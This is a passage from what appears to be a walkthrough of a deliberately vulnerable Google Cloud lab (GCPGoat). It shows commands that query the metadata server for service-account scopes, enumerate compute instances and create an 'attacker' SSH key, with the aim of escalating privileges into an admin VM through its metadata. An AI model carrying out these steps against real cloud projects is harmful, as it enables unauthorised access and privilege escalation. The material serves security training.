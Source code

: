 ```bash

curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \

    -H 'Metadata-Flavor:Google'

```
 

![](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-09.png)

The VM has full access to compute services and read access to storage buckets.
 

### Phase 3: Discovery of High-Value Targets  

#### 8. Enumerate Compute Instances

We list all compute instances in the project:
 

```bash

gcloud compute instances list

```
  

![](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-10.png)  

We've identified another VM named **admin-vm**. Keep the public IP address for this instance, we will need it after. 

We will access this VM by modifying its metadata.

### Phase 4: Privilege Escalation via Metadata Modification 

#### 9. Generate New SSH Key Pair

Create a new SSH key for accessing the admin VM:
 

```bash

ssh-keygen -t rsa -C "attacker" -f ./key -P ""

```
 

![](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-11.png)
